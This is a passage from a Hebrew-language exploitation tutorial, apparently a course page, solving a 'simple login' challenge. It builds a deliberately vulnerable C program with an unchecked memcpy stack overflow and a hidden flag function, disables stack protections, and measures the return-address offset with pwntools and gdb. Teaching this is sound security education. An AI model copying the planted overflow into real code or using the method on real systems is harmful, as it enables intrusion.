

repository: AmitPinchasi/amittech · page: מחקר-חולשות/8 - הנדסה הפוכה לניצול/8.6 - אתגרי לוגיקה/8.6 - אתגרי לוגיקה - פתרון/index.html · generator: mkdocs

## פתרון - אתגרי לוגיקה

כאן נעבור על ארבעת האתגרים עם exploit מלא ורץ לכל אחד. לכל אתגר נבנה קודם בינארי דמו מקומי שמשחזר את הדפוס, נפתור אותו עד הסוף, ואז נסביר איך למפות את הפתרון לאתגר האמיתי. הרעיון: להבין את המנגנון על משהו שאפשר להריץ ולדבג, לפני שנלחמים בסביבה של השרת.

לכל דמו נכין קובץ `flag` מקומי כדי לראות שהexploit עובד:

```bash
echo 'FLAG{demo}' > flag
```

### פתרון תרגיל 1 - simple login

#### הבינארי לדוגמה

הדמו משחזר את הדפוס: קלט שמפוענח מ-base64 ומועתק ב-`memcpy` לbuffer קטן, עם פונקציית `correct` שלא נקראת בזרימה הרגילה. מפענח ה-base64 כלול כדי שהכל יהיה עצמאי:

```c
// slogin.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int b64dec(const char* in, unsigned char* out) {
    static const char* t =
        "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    int val = 0, bits = 0, n = 0;
    for (const char* p = in; *p && *p != '\n' && *p != '='; p++) {
        const char* q = strchr(t, *p);
        if (!q) continue;
        val = (val << 6) | (int)(q - t);
        bits += 6;
        if (bits >= 8) { bits -= 8; out[n++] = (val >> bits) & 0xff; }
    }
    return n;
}

void correct() {
    puts("Login OK. flag:");
    system("/bin/cat flag");
    exit(0);
}

void auth(unsigned char* dec, int len) {
    char buf[16];
    memcpy(buf, dec, len);          // overflow: len is under our control
    printf("checking %s\n", buf);
}

int main() {
    char line[512];
    unsigned char dec[512];
    setvbuf(stdout, 0, _IONBF, 0);
    printf("Authenticate : ");
    scanf("%500s", line);
    int len = b64dec(line, dec);
    auth(dec, len);
    puts("Wrong Password");
    return 0;
}
```

מקמפלים 32 ביט, בלי canary ובלי PIE, ובודקים הגנות:

```bash
gcc -m32 -fno-stack-protector -no-pie -o slogin slogin.c
checksec --file=./slogin
# STACK CANARY: No canary | NX: enabled | PIE: No PIE
```

#### מציאת ה-offset והכתובת

את הכתובת של `correct` נשלוף ישירות מ-pwntools עם `elf.symbols['correct']`. את ה-offset עד הreturn address נמדוד עם `cyclic`. מכיוון שהתוכנית מפענחת מ-base64, אנחנו מקודדים דפוס מחזורי, שולחים, ובודקים ב-gdb על איזה ערך `auth` מנסה לחזור:

```bash
python3 -c "import base64,sys; from pwn import cyclic; sys.stdout.buffer.write(base64.b64encode(cyclic(64)))"
# feed the output to the program under gdb, and check the value that overwrote the return address with cyclic_find
```

עבור `buf[16]` ו-`saved ebp` של 4 בתים, ה-offset יוצא 20. תמיד אמתו בעצמכם - קומפיילר שונה עלול ליישר אחרת.
